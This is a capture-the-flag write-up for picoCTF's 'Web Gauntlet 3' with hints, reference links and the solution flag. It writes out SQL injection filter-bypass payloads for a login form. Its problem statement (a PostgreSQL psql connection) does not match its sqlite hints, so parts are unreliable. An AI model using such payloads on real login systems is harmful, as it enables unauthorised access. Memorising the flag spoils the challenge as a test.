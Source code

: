 # Web Gauntlet 3

## Problem Statement

Connect to this PostgreSQL server and find the flag!
psql -h saturn.picoctf.net -p 50512 -U postgres pico
Password is postgres


## Type

Web Exploitation

## Hints

1. Each filter is separated by a space. Spaces are not filtered.

2. There is only 1 round this time, when you beat it the flag will be in filter.php.

3. sqlite

## Approach

used concat to spell admin and except keyword.

username: `adm'||'in' glob select`

password: `''glob '*'`


## Reference articles

1. https://portswigger.net/support/sql-injection-bypassing-common-filters
2. https://www.hackingarticles.in/bypass-filter-sql-injection-manually/
3. https://sqlite.org/lang_corefunc.html#glob

## Flag

picoCTF{k3ep_1t_sh0rt_eb90a623e2c581bcd3127d9d60a4dead}